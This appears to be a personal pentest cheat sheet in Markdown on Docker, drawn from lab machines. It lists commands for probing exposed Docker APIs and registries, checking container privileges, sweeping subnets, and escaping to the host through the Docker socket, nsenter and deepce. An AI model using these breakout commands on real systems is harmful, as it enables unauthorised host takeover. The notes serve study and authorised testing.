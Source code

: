 ```yaml
---
layout: post
title: Docker
description: Docker
summary: Docker
tags: [devops,docker,enum]
minute: 1
---
```

## Overview
* Running container with `--privileged` gives all capabilities to containers compared to just using `--cap-add SYS_ADMIN`

## Detection
* A host may be running docker if it exposes different version of app from network scan. Example is from HTB Enterprise, there are multiple apache versions which is odd. I was found out that its running 2 docker containers, 1 for wordpress and 1 for joomla.

## Ports
* 2375/tcp
* 2376/tcp

## Network
* Example container IP is `172.17.0.2`

## Docker API Commands
```bash
# gets docker version
curl http://10.10.198.13:2375/version

# getting list of images via exposed docker tcp socket
docker -H tcp://10.10.198.13:2375 ps
```

## Container Commands
```bash
# are we inside a container?
ls -l /.dockerenv
cat /proc/1/cgroup | grep docker

# check if privileged - you must see host devices
fdisk -l

# check if privileged (looks like these should be seen
# under `Current:` and not on the bounding set)
# - if Capeff is set to all 0's, the container most likely
#   doesn't have much permissions, meaning you can't breakout!
capsh --print | egrep 'cap_(net_admin|sys_module|sys_chroot|sys_admin|sys_time)'

# Use this if `capsh` is not available
# - on attacker machine, get one output and decode it:
#     capsh --decode=<NUMBERS>
#     NOTE: Look at CapPrm and CapEff output
cat /proc/$$/status | grep ^Cap

# Extracting network information
cat /proc/net/tcp
hostname -I
ifconfig
ip a

# Check the available IPs via arp. For example, you can find
# IP addresses of databases using these methods below.
ip neighbor
arp -a
cat /etc/hosts

# Check subnets
cat /proc/net/fib_trie | grep -B1 "32 host LOCAL"

# You can also do ping sweep to see reachable IPs.
for i in {1..254}; do (ping -c 1 172.17.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
for i in {1..65535}; do ping -c 1 172.20.0.${i} &> /dev/null && echo "$i: UP"; done

# check if can control docker socket
ls -l /var/run/docker.sock

# check if you can write to the filesystem
echo 1 > /proc/sysrq-trigger

# try to mount host root volume
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# docker running with --pid=host command? processes
# must be similar to host processes
ps -ef

# use a statically compiled nmap and upload
# /usr/share/nmap inside the container
./nmap --datadir usr/share/nmap -sT -p1-65535 172.20.0.1-10

# enter root namespace and drop to host shell
nsenter --target 1 --mount sh

# create a new namespace mapping root user
unshare -r

# see if you can migrate to another namespace (root namespace?)
nsenter --target 1 --all

# check hardcoded IPs and hostnames
cat /etc/hosts

# check what devices are available and mounted
mount
cat /proc/mounts
```

## Automated tools
```bash
# https://github.com/cdk-team/CDK#installationdelivery
cdk evaluate --full

# https://github.com/PercussiveElbow/docker-escape-tool
./docker_escape check

# https://github.com/stealthcopter/deepce
./deepce.sh
./deepce.sh --no-enumeration --exploit PRIVILEGED --username
./deepce.sh --password deepce
```

## Docker Registries
```bash
# gets images
curl http://docker-rodeo.thm:5000/v2/_catalog

# gets image tags
url http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/tags/list

# inspect image manifest file
curl http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/manifests/latest | grep /root/root.txt
```

## Docker parameters
```bash
# gives full privileges on the host system
--privileged

# removes any security restrictions for the container
--security-opt seccomp=undefined
```

## Tools
* [deepce](https://github.com/stealthcopter/deepce)
* [dive](https://github.com/wagoodman/dive) - reverse engineers docker images

## References
* [Docker Breakout - HackTricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)
* [2375, 2376 Pentesting Docker - HackTricks](https://book.hacktricks.xyz/pentesting/2375-pentesting-docker)
* [Hacking Dockers and Containers (OWASP)](https://owasp.org/www-chapter-sydney/files/docker-containers.pdf)
* [GitHub - sneakerhax/OffensiveDocker: Offensive security tools Dockerized](https://github.com/sneakerhax/OffensiveDocker)
* [An Attacker Looks at Docker (BlackHat)](https://i.blackhat.com/us-18/Thu-August-9/us-18-McGrew-An-Attacker-Looks-At-Docker-Approaching-Multi-Container-Applications-wp.pdf)
* [Lesson 4: Hacking Containers Like A Boss](https://www.practical-devsecops.com/lesson-4-hacking-containers-like-a-boss/)
* [Cgroups](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)
* https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf
